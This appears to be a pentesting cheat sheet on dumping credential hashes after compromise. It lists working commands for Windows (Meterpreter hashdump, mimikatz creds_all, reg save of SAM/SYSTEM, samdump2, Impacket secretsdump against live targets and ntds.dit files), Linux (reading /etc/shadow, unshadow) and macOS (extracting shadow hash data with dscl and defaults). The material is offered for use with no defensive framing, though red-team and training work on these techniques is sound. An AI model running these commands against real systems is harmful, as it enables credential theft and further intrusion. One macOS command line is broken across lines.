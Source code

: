 # Dumping Hashes

## Windows: 

### Meterpreter HashDump

- run post/windows/gather/hashdump

### Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

### reg.exe 

```
reg save HKLM\sam sam
reg save HKLM\system system
```

### samdump2

```
samdump2 SYSTEM SAM > hashes.db
```

### Impacket Tools: 

Scretsdump.py script does require a pwned user account on the target machine. 

```
$ sudo python3 secretsdump.py domain.local\username:password@<target_IP>
```

or

```
secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes
```

If you have the NTDS.dit file and the SYSTEM hive: 

```
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```

## Linux

Requires Root Privileges

- `cat /etc/shadow`

- `cp /etc/passwd` and `/etc/shadow`
- `unshadow passwd shadow > unshadowed`

##  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -


## Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy
